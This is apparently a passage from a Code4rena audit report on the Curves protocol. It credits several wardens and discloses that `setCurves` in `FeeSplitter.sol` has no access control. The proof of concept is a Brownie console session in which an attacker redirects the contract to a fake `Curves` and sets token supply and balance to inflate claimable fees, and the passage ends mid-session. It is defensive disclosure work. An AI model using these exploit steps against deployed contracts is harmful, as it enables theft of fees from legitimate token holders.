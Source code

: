 [n1punp](https://github.com/code-423n4/2024-01-curves-findings/issues/252), [cats](https://github.com/code-423n4/2024-01-curves-findings/issues/250), [EV\_om](https://github.com/code-423n4/2024-01-curves-findings/issues/246), [bronze\_pickaxe](https://github.com/code-423n4/2024-01-curves-findings/issues/217), [cartlex\_](https://github.com/code-423n4/2024-01-curves-findings/issues/208), [rudolph](https://github.com/code-423n4/2024-01-curves-findings/issues/196), [L0s1](https://github.com/code-423n4/2024-01-curves-findings/issues/178), [deepplus](https://github.com/code-423n4/2024-01-curves-findings/issues/167), [Inference](https://github.com/code-423n4/2024-01-curves-findings/issues/155), [0xMAKEOUTHILL](https://github.com/code-423n4/2024-01-curves-findings/issues/150), [lil\_eth](https://github.com/code-423n4/2024-01-curves-findings/issues/145), [polarzero](https://github.com/code-423n4/2024-01-curves-findings/issues/138), [Timenov](https://github.com/code-423n4/2024-01-curves-findings/issues/137), [IceBear](https://github.com/code-423n4/2024-01-curves-findings/issues/127), [nuthan2x](https://github.com/code-423n4/2024-01-curves-findings/issues/125), [ubl4nk](https://github.com/code-423n4/2024-01-curves-findings/issues/121), [skyge](https://github.com/code-423n4/2024-01-curves-findings/issues/114), [AlexCzm](https://github.com/code-423n4/2024-01-curves-findings/issues/110), [andywer](https://github.com/code-423n4/2024-01-curves-findings/issues/84), [mrudenko](https://github.com/code-423n4/2024-01-curves-findings/issues/83), [alexbabits](https://github.com/code-423n4/2024-01-curves-findings/issues/82), [pipoca](https://github.com/code-423n4/2024-01-curves-findings/issues/64), [Timeless](https://github.com/code-423n4/2024-01-curves-findings/issues/43), [y4y](https://github.com/code-423n4/2024-01-curves-findings/issues/36), [kutugu](https://github.com/code-423n4/2024-01-curves-findings/issues/30), [Krace](https://github.com/code-423n4/2024-01-curves-findings/issues/25), [ravikiranweb3](https://github.com/code-423n4/2024-01-curves-findings/issues/15), [haxatron](https://github.com/code-423n4/2024-01-curves-findings/issues/9), and [Soliditors](https://github.com/code-423n4/2024-01-curves-findings/issues/7)*

The `FeeSplitter.sol` contract, which is responsible for fee distribution and claiming, contains a significant security vulnerability related to the `setCurves` function. This function allows updating the reference to the `Curves` contract. However, as it currently stands, any user, including a malicious actor, can call `setCurves`. This vulnerability can be exploited to redirect the contract's reference to a fake or malicious `Curves` contract (`FakeCurves.sol`), enabling manipulation of critical calculations used in fee distribution.

The exploit allows an attacker to set arbitrary values for `curvesTokenBalance` and `curvesTokenSupply` in the fake `Curves` contract. By manipulating these values, the attacker can falsely inflate their claimable fees, leading to unauthorized profit at the expense of legitimate token holders.

### Proof of Concept

**Steps:**

1. Deploy the `FeeSplitter` and `FakeCurves` contracts.
2. As an attacker, call `setCurves` on `FeeSplitter` to update the `curves` reference to the deployed `FakeCurves` contract.
3. Manipulate `curvesTokenBalance` and `curvesTokenSupply` in `FakeCurves` to create false balances and supplies.
4. Call `getClaimableFees` in `FeeSplitter` to calculate inflated claimable fees based on the manipulated values.
5. Observe that the attacker is able to claim fees that they are not entitled to.

**Code:**

```python
>>> feeRedistributor.getClaimableFees(randomToken, attacker)
0
>>> feeRedistributor.setCurves(fakeCurves,{'from': attacker})
Transaction sent: 0x6480994a739ab1541d4eb596fd73a49d55b59b6c7080a7cbb10d0b72f619b799
  Gas price: 0.0 gwei   Gas limit: 12000000   Nonce: 9
  FeeSplitter.setCurves confirmed   Block: 17   Gas used: 27607 (0.23%)

<Transaction '0x6480994a739ab1541d4eb596fd73a49d55b59b6c7080a7cbb10d0b72f619b799'>
>>> fakeCurves.setCurvesTokenSupply(randomToken, 250, {'from': attacker})
Transaction sent: 0xd9c0938f9876348657bf5ef8e7e84706b0ddf287da69169716ca6af22a3c059d
  Gas price: 0.0 gwei   Gas limit: 12000000   Nonce: 10
  FakeCurves.setCurvesTokenSupply confirmed   Block: 18   Gas used: 22786 (0.19%)

<Transaction '0xd9c0938f9876348657bf5ef8e7e84706b0ddf287da69169716ca6af22a3c059d'>
>>> fakeCurves.setCurvesTokenBalance(randomToken, attacker, 249, {'from': attacker})
```